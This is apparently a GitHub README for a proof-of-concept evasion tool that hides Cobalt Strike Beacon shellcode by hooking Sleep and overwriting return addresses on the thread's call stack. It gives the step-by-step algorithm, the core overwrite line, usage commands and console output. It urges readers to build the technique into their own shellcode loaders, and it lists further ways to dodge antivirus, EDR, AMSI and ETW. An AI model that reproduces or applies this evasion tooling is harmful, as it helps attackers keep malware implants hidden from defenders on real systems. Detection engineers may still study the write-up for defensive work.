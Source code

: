 # Thread Stack Spoofing PoC

A PoC implementation for an advanced in-memory evasion technique that spoofs Thread Call Stack. This technique allows to bypass thread-based memory examination rules and better hide shellcodes while in-process memory.

## Intro

This is an example implementation for _Thread Stack Spoofing_ technique aiming to evade Malware Analysts, AVs and EDRs looking for references to shellcode's frames in an examined thread's call stack.
The idea is to walk back thread's call stack and overwrite return addresses in subsequent function frames thus masquerading allocations containing malware's code.

An implementation may differ, however the idea is roughly similar to what [MDSec's Nighthawk C2](https://www.mdsec.co.uk/nighthawk/) offers for its agents.
Especially demonstrated in this video:

[Nighthawk - Thread Stack Spoofing](https://vimeo.com/581861665)


## How it works?

This program performs self-injection shellcode (roughly via classic `VirtualAlloc` + `memcpy` + `CreateThread`). 
Then when shellcode runs (this implementation specifically targets Cobalt Strike Beacon implants) a Windows function will be hooked intercepting moment when Beacon falls asleep `kernel32!Sleep`. 
Whenever hooked `MySleep` function gets invoked, it will spoof its own call stack leading to this `MySleep` function and begin sleeping. 
Having awaited for expected amount of time, the Thread's call stack will get restored assuring stable return and shellcode's execution resumption.

The rough algorithm is following:

1. Read shellcode's contents from file.
2. Acquire all the necessary function pointers from `dbghelp.dll`, call `SymInitialize`
3. Hook `kernel32!Sleep` pointing back to our callback.
4. Inject and launch shellcode via `VirtualAlloc` + `memcpy` + `CreateThread`
5. As soon as Beacon attempts to sleep, our `MySleep` callback gets invoked.
6. Stack Spoofing begins. 
7. Firstly we walk call stack of our current thread, utilising `ntdll!RtlCaptureContext` and `dbghelp!StackWalk64` 
8. We save all of the stack frames that match our `seems-to-be-beacon-frame` criterias (such as return address points back to a memory being `MEM_PRIVATE` or `Type = 0`, or memory's protection flags are not `R/RX/RWX`)
9. We terate over collected frames (gathered function frame pointers `RBP/EBP` - in `frame.frameAddr`) and overwrite _on-stack_ return addresses with a fake `::CreateFileW` address.
10. Finally a call to `::SleepEx` is made to let the Beacon's sleep while waiting for further communication.
11. After Sleep is finished, we restore previously saved original function return addresses and execution is resumed. 

Function return addresses are scattered all around the thread's stack memory area, pointed to by `RBP/EBP` register. In order to find them on the stack, we need to firstly collect frame pointers, then dereference them for overwriting:

```
	*(PULONG_PTR)(frameAddr + sizeof(void*)) = Fake_Return_Address;
```

This precise logic is provided by `walkCallStack` and `spoofCallStack` functions in `main.cpp`.


## How do I use it?

Look at the code and its implementation, understand the concept and re-implement the concept within your own Shellcode Loaders that you utilise to deliver your Red Team engagements.
This is an yet another technique for advanced in-memory evasion that increases your Teams' chances for not getting caught by Anti-Viruses, EDRs and Malware Analysts taking look at your implants.

While delivering your advanced shellcode loader, you might also want to implement:

- **Process Heap Encryption** - take an inspiration from this blog post: [Hook Heaps and Live Free](https://www.arashparsa.com/hook-heaps-and-live-free/) - which can let you evade Beacon configuration extractos like [`BeaconEye`](https://github.com/CCob/BeaconEye)
- **Change your Beacon's memory pages protection to `RW` (from `RX/RWX`) and encrypt their contents** before sleeping (that could evade scanners such as [`Moneta`](https://github.com/forrest-orr/moneta) or [`pe-sieve`](https://github.com/hasherezade/pe-sieve))
- **Clean any leftovers from Reflective Loader** to avoid in-memory signatured detections
- **Unhook everything you might have hooked** (such as AMSI, ETW, WLDP) before sleeping and then re-hook afterwards.


## Demo

This is how a call stack may look like when it is **NOT** spoofed:

![not-spoofed](images/not-spoofed.png)

This in turn, when thread stack spoofing is enabled:

![spoofed](images/spoofed.png)


## Example run

Use case:

```
C:\> ThreadStackSpoofer.exe <shellcode> <spoof>
```

Where:
- `<shellcode>` is a path to the shellcode file
- `<spoof>` when `1` or `true` will enable thread stack spoofing and anything else disables it.


Example run that spoofs beacon's thread call stack:

```
C:\> ThreadStackSpoofer.exe beacon64.bin 1
[.] Reading shellcode bytes...
[.] Initializing stack spoofer...
[+] Stack spoofing initialized.
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92de4 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x1f255dabd51 - skip? 0
        3.      calledFrom: 0x1f255dabd51 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x1388 - skip? 0
        4.      calledFrom: 0x    1388 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x1f25683ae80 - skip? 0
        5.      calledFrom: 0x1f25683ae80 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x1b000100000004 - skip? 0
        6.      calledFrom: 0x1b000100000004 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x8003600140000 - skip? 0
        7.      calledFrom: 0x8003600140000 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x1f255f76040 - skip? 0
        8.      calledFrom: 0x1f255f76040 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x1f255d8cd9f - skip? 0
        9.      calledFrom: 0x1f255d8cd9f - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x1f255d8cdd0 - skip? 0
WalkCallStack: Stack Trace finished.
                        Spoofed: 0x1f255dabd51 -> 0x7ffeb7f74b60
                        Spoofed: 0x00001388 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f25683ae80 -> 0x7ffeb7f74b60
                        Spoofed: 0x1b000100000004 -> 0x7ffeb7f74b60
                        Spoofed: 0x8003600140000 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255f76040 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cd9f -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cdd0 -> 0x7ffeb7f74b60
MySleep(5000)
[+] Shellcode is now running.
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92e14 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x7ffeb7f74b60 - skip? 1
        3.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x7ffeb7f74b60 - skip? 1
        4.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x7ffeb7f74b60 - skip? 1
        5.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x7ffeb7f74b60 - skip? 1
        6.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x7ffeb7f74b60 - skip? 1
        7.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x7ffeb7f74b60 - skip? 1
        8.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x7ffeb7f74b60 - skip? 1
        9.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x7ffeb7f74b60 - skip? 1
WalkCallStack: Stack Trace finished.
                        Restored: 0x7ffeb7f74b60 -> 0x1f255dabd51
                        Restored: 0x7ffeb7f74b60 -> 0x1388
                        Restored: 0x7ffeb7f74b60 -> 0x1f25683ae80
                        Restored: 0x7ffeb7f74b60 -> 0x1b000100000004
                        Restored: 0x7ffeb7f74b60 -> 0x8003600140000
                        Restored: 0x7ffeb7f74b60 -> 0x1f255f76040
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cd9f
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cdd0
```


## Author

```
Mariusz Banach / mgeeky, 
<mb [at] binary-offensive.com>, '21
```
